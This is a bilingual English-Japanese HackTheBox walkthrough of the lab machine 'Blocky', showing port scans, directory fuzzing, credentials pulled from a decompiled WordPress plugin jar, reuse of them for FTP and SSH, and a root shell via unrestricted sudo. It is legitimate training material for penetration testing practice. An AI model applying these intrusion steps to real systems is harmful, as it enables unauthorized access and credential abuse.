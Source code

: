 
# Blocky - HackTheBox

This machine seems like something that you could actually find in the wild. Mainly reusing creds, and exposing files you shouldn't

このボックスでは、ネット上で本格的なサーバーに似てるので良い練習になりました。このボックスの大脆弱性は二つです。パスワード再設定とセンシティブなファイルを無意識に表示することです。

# Enumeration・情報収集

## Rustscan

```bash
Open 10.10.10.37:21
Open 10.10.10.37:22
Open 10.10.10.37:80
Open 10.10.10.37:25565
```

## Nmap

```bash
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

## ffuf

```bash
.htpasswd               [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 4476ms]
.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 4476ms]
javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 116ms]
phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 66ms]
plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 59ms]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 69ms]
wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 116ms]
wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 295ms]
wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 306ms]
wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 352ms]
```

もしかして、これがマインクラフトサーバーかな。

# Foothold・初期侵入

一つのポストが書かれたワードプレスブログがあります。そのポストの著者は"notch"らしい。

![blog post](https://i.gyazo.com/879e84274d1c5e06b581fd1b5201ef1d.png)

anonymous FTPログインしようとしましたがアクセスできませんでした。しかし、ユーザーネームを"notch"に設定したらサーバーからの返事には少し遅れたので、"notch"はユーザーとして可能だとわかりました。

"/plugins"フォルダーを見て、"BlockyCore.jar"っていうファイルが見つかりました。

![blocky core](https://i.gyazo.com/ca69cbd256bcce587e55176d947770f8.png)

"BlockyCore.jar"をデコンパイルするとmysqlデーターベースのユーザーとパスワードを発見した！

![sql creds](https://i.gyazo.com/a7ca9c98ed326817ea3be1b0f7f31ccc.png)

"notch"と".jar"ファイルからもらったパスワードを使ってFTPとSSHができました。

そしてuserフラグゲット！

```bash
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Sep  4 23:15 user.txt
```

# Root

Rootは簡単でした。

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo bash -i
root@Blocky:~# cd /root
root@Blocky:/root# ls -al
total 28
drwx------  3 root root 4096 Jul  6 07:25 .
drwxr-xr-x 23 root root 4096 Jun  2 02:44 ..
-rw-------  1 root root    1 Dec 24  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jun  7 02:47 .cache
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Sep  4 18:15 root.txt
root@Blocky:/root# cat root.txt
```

この解説を読んでくれてありがとうございます！　:D
